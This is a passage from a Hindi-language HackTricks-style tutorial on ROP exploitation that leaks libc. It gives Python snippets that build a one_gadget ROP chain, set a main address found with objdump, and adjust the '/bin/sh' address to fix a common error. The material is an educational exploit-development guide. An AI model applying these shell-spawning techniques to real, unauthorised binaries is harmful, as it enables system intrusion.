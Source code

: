 ![](<../../../../.gitbook/assets/image (751).png>)
```python
ONE_GADGET = libc.address + 0x4526a
rop2 = base + p64(ONE_GADGET) + "\x00"*100
```
## एक्सप्लॉइट फ़ाइल

आप इस सुरक्षा दोष का शार्टकट यहाँ पा सकते हैं:

{% content-ref url="rop-leaking-libc-template.md" %}
[rop-leaking-libc-template.md](rop-leaking-libc-template.md)
{% endcontent-ref %}

## सामान्य समस्याएँ

### MAIN\_PLT = elf.symbols\['main'] नहीं मिला

यदि "main" प्रतीक मौजूद नहीं है। तो आप यहाँ मुख्य कोड कहाँ है पा सकते हैं:
```python
objdump -d vuln_binary | grep "\.text"
Disassembly of section .text:
0000000000401080 <.text>:
```
और पता मैन्युअल रूप से सेट करें:
```python
MAIN_PLT = 0x401080
```
### Puts नहीं मिला

यदि बाइनरी Puts का उपयोग नहीं कर रहा है तो आपको यह जांचना चाहिए कि क्या यह इस्तेमाल कर रहा है

### `sh: 1: %s%s%s%s%s%s%s%s: not found`

यदि आप इस **त्रुटि** को पाते हैं जब आप **सभी** एक्सप्लॉइट बनाने के बाद: `sh: 1: %s%s%s%s%s%s%s%s: not found`

तो कोशिश करें **"/bin/sh" के पते में 64 बाइट कम करें**:
```python
BINSH = next(libc.search("/bin/sh")) - 64
```
<details><summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary></details>
